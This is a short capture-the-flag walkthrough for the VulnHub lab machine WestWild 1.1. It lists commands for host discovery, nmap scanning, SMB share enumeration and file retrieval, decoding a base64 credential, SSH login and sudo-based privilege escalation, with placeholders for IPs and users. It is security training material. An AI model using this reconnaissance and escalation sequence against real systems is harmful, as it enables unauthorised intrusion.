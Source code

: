 # Wild-West-VulnHub


- Go to the link : **https://www.vulnhub.com/entry/westwild-11,338/**
- Download the __.ova__ file
- Download Virtual Box : **https://www.virtualbox.org/wiki/Downloads**
- In VirtualBox, to import the __.ova__ file head to *File → Import Appliance*
- Make sure to check for the network adapter *Network → Bridged Adapter*

---

- Get IP
    
    ```bash
    netdiscover
    ```
    
- Save the vulnerable device IP in a file

    ```
    IP > csec_ip
    ```
- Check the services using nmap
    
    ```bash
    nmap -A -vv IP
    ```

    ```bash
    enum4linux IP
    smbclient -L //IP
    smbclient //IP/USER
    get FLAG.txt
    get avenge.txt
    ```
    
- for hashed code, 
    
    ```bash
    echo "HASH_CODE" | base64 -d
    ```
    
    ```bash
    ssh USER@IP
    ```
    
    ```bash
    sudo -l
    ```
    
- Use priviledge escalation
    
    ```bash
    find / -writable -type d 2>/dev/null
    ```
    
    ```bash
    check all the files
    ```
    
    ```bash
    su USER2
    sudo -l
    su
    sudo -i
    ```
